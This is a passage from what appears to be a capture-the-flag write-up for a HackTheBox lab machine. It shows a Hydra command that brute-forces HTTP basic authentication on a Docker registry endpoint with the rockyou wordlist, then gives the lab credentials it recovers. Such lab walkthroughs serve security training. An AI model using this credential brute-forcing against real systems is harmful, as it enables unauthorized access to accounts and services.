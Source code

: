
![image15](../resources/f1428a2d68ca4d0db993339e0ada88da.png)

- We can bruteforce this with Hydra:

```bash
hydra -I -l alex -P /usr/share/wordlists/rockyou.txt "magicgardens.htb" https-get "/v2/" -s 5000

```

![image16](../resources/6563180341ae4208bdc2a63b3a2359ff.png)

We get **alex:diamonds**

- We can now authorize (using the base64 of the creds):

![image17](../resources/d369ab042f4f4146b4cc22339525e396.png)
